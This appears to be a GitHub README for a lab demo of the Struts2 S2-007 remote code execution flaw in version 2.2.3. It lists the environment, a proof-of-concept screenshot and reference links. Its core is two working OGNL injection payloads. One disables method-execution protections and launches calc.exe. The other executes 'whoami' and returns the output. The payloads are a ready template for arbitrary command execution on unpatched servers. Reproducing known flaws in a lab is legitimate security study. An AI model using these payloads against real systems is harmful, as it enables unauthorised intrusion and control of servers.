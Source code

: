 # S2-007 Demo

## Environment
Struts2: struts-2.2.3

Tomcat: 8.5.53

IDE: idea 2020.1.1 ULTIMATE

## POC



![{A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031]({A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031.jpg)

## Payload

- open calc.exe

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("calc")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)


* [【Struts2-命令-代码执行漏洞分析系列】S2-007](https://xz.aliyun.com/t/2684)

